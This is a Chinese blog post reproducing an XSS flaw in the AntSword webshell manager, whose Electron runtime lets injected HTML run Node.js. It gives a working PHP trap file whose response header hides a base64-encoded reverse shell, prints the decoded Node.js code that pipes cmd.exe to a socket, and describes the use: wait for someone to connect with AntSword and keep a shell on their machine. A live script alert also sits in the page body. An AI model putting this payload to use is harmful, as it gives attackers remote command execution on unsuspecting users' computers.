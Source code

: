﻿---
layout: post
title: 蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

####一、环境
>antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
####二、复现过程
>phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![](https://upload-images.jianshu.io/upload_images/15634342-be1d8183dc2cdc6f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
>特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>本地nc监听端口
![](https://upload-images.jianshu.io/upload_images/15634342-0ea84fbca44a39f0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>使用蚁剑访问webshell
![](https://upload-images.jianshu.io/upload_images/15634342-c19a800c6f860cdc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>webshell反弹成功
![](https://upload-images.jianshu.io/upload_images/15634342-15269de34a8f2e4d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

####三、总结
>适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在
局限：XSS配合Electron才能反弹shell，不然只能打cookie等

<script>alert('xss')</script>


参考链接：
[*][https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
[*][https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













